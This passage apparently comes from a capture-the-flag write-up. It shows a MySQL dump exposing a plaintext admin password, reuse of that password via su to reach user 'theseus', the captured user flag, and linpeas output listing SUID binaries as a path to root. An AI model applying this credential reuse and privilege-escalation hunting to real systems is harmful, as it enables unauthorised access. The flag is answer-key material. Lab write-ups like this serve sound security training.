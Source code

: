 ```bash
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2022-06-05  8:47:33

```

### 3.2 Logged in as Theseus
Used password: `Th3s3usW4sK1ng`
```bash
www-data@ubuntu:/usr/bin$ su theseus
Password: 
theseus@ubuntu:/usr/bin$ whoami
theseus



theseus@ubuntu:~$ cat user.txt 
e342a54e2551f77eb5cf3fbdcdf9aff3

```


### 3.3 SUID
Transferred the `linpeas.sh` to the host and executed it. Found an interesting binary `sysinfo`.
```bash
-rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
-rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
```

